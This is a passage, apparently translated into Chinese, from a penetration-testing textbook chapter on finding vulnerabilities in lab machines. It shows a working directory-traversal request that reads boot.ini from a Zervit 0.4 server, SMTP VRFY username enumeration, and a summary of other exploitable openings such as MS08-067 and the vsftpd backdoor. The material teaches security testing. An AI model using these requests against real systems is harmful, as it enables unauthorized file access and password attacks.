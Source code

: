 服务器将自己标识为 Zervit 0.4 ❶。对于这款软件来说情况不妙，因为在 Google 上搜索 Zervit 0.4 时，第一个自动补全的条目是“Zervit 0.4 exploit”（Zervit 0.4 漏洞）。这款 Web 服务器软件存在多个安全问题，包括缓冲区溢出和本地文件包含漏洞，这使我们能够提供系统上的其他文件。由于这个服务非常敏感，最好避免进行缓冲区溢出攻击，因为一个错误的操作可能会导致它崩溃。另一方面，本地文件包含漏洞看起来很有前景。我们知道服务器可以处理 HTTP `GET`请求。例如，我们可以通过`GET`命令回退五个目录到 C 盘来下载 Windows XP 的*boot.ini*文件，如示例 6-13 所示。

示例 6-13。Zervit 0.4 中的本地文件包含

```
root@kali:~# **nc 192.168.20.10 3232**
**GET /../../../../../boot.ini HTTP/1.1**
HTTP/1.1 200 OK
Server: Zervit 0.4
X-Powered-By: Carbono
Connection: close
Accept-Ranges: bytes
Content-Type: application/octet-stream
Content-Length: 211

[boot loader]
timeout=30
default=multi(0)disk(0)rdisk(0)partition(1)\WINDOWS
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\WINDOWS="Microsoft Windows XP Home Edition" /fastdetect /NoExecute=OptIn
```

我们能够下载*boot.ini*，这是一个配置文件，告诉 Windows 在启动时显示哪些操作系统选项。我们将在第八章中使用这个本地文件包含漏洞下载更多敏感文件。

### 查找有效用户名

如果我们知道服务的有效用户名，成功进行密码攻击的机会可以大大增加。（我们将在第九章中详细探讨这一点。）一种找到邮件服务器有效用户名的方法是使用`VRFY SMTP`命令，如果该命令可用的话。顾名思义，`VRFY`用于验证用户是否存在。NSE 在上一章中发现`VRFY`动词在 Windows XP 目标机器上是启用的。使用 Netcat 连接到 TCP 端口 25，并使用`VRFY`检查用户名，如示例 6-14 所示。

示例 6-14。使用`SMTP VRFY`命令

```
root@kali:~# **nc 192.168.20.10 25**
220 georgia.com SMTP Server SLmail 5.5.0.4433 Ready ESMTP spoken here
**VRFY georgia**
250 Georgia<georgia@>
**VRFY john**
551 User not local
```

使用`VRFY`我们发现*georgia*是一个有效的用户名，但没有名为*john*的用户。我们将在第九章中讨论如何使用有效的用户名尝试猜测密码。

## 总结

在本章中，我们介绍了多种方法来发现我们目标上的可利用漏洞。通过使用多种工具和技术，我们能够找到多种攻击我们目标的方式，包括我们常用的 MS08-067 漏洞攻击 Windows XP SMB 服务器，以及 Zervit 0.4 Web 服务器上的本地文件包含漏洞，允许我们下载系统文件。使用`VRFY`，我们发现了一个有效的用户名，可以用于对邮件服务器进行密码猜测攻击。

我们了解到，SLMail 服务器的 POP3 服务可能存在漏洞，基于其报告的版本号（尽管我们无法确定这一点），此外，我们在 Web 服务器上发现了一个开放的 phpMyAdmin 安装，给我们提供了对底层数据库的 root 访问权限，还发现了一个默认凭据的 XAMPP 安装，这使得我们可以将文件上传到 Web 服务器。在 Linux 目标上，我们发现了一个具有写权限的 NFS 共享，使我们能够写入用户的*.ssh*目录，同时还发现了一个不太显眼的 TikiWiki 安装，它似乎包含一个代码执行漏洞。Vsftpd 2.3.4 FTP 服务器可能由于 Vsftpd 存储库的被攻破，存在一个隐藏的后门。

在本书的这一部分，我们可以看到我们的 Windows XP 和 Linux 目标机器存在许多问题。我们的 Windows 7 目标缺乏攻击面，看起来相当安全，但正如我们稍后将看到的，那坚固的外壳下隐藏着一些漏洞。在我们开始利用这些漏洞之前，下一章将讨论如何捕获流量以获取敏感信息，如登录凭据。
